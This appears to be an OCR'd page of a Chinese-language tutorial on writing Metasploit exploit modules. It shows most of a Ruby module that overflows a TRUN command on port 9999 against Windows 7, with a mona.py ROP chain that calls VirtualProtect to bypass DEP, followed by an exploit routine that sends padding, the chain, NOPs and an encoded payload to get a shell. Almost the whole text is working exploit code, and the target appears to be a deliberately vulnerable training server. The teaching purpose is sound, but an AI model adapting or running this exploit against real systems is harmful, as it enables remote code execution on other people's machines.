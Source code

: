 ```
      'space' => 312, 
      'BadChars' => "\x00", 
      }, 
      'Targets' => 
       [ 
                  ['Windows 7 Professional',{ 'Offset' => 2006}] 
       ], 
      'DisclosureDate' => 'Mar 4 2018' 
   )) 
   register_options( 
   [ 
         Opt::RPORT(9999) 
   ]) 
  end 
```

我们已经编写了许多模块，并且非常熟悉所需的库和初始化部分。此外，我们不需要返回地址，因为我们使用 ROP 链自动构建跳转到外壳代码的机制。让我们关注利用漏洞部分：

```
def create_rop_chain() 

    # rop chain generated with mona.py - www.corelan.be 
    rop_gadgets =  
    [ 
      0x77dfb7e4,  # POP ECX # RETN [RPCRT4.dll]  
      0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll] 
      0x76a5fd52,  # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN [MSCTF.dll]  
      0x766a70d7,  # POP EBP # RETN [USP10.dll]  
      0x625011bb,  # & jmp esp [essfunc.dll] 
      0x777f557c,  # POP EAX # RETN [msvcrt.dll]  
      0xfffffdff,  # Value to negate, will become 0x00000201 
      0x765e4802,  # NEG EAX # RETN [user32.dll]  
      0x76a5f9f1,  # XCHG EAX,EBX # RETN [MSCTF.dll]  
      0x7779f5d4,  # POP EAX # RETN [msvcrt.dll]  
      0xffffffc0,  # Value to negate, will become 0x00000040 
      0x765e4802,  # NEG EAX # RETN [user32.dll]  
      0x76386fc0,  # XCHG EAX,EDX # RETN [kernel32.dll]  
      0x77dfd09c,  # POP ECX # RETN [RPCRT4.dll]  
      0x62504dfc,  # &Writable location [essfunc.dll] 
      0x77e461e1,  # POP EDI # RETN [RPCRT4.dll]  
      0x765e4804,  # RETN (ROP NOP) [user32.dll] 
      0x777f3836,  # POP EAX # RETN [msvcrt.dll]  
      0x90909090,  # nop 
      0x77d43c64,  # PUSHAD # RETN [ntdll.dll]  
    ].flatten.pack("V*") 

    return rop_gadgets 

  end 
  def exploit 
    connect 
    rop_chain = create_rop_chain() 
    junk = rand_text_alpha_upper(target['Offset']) 
    buf = "TRUN ."+junk + rop_chain  + make_nops(16) + payload.encoded+'rn' 
    sock.put(buf) 
    handler 
    disconnect 
  end 
end 
```
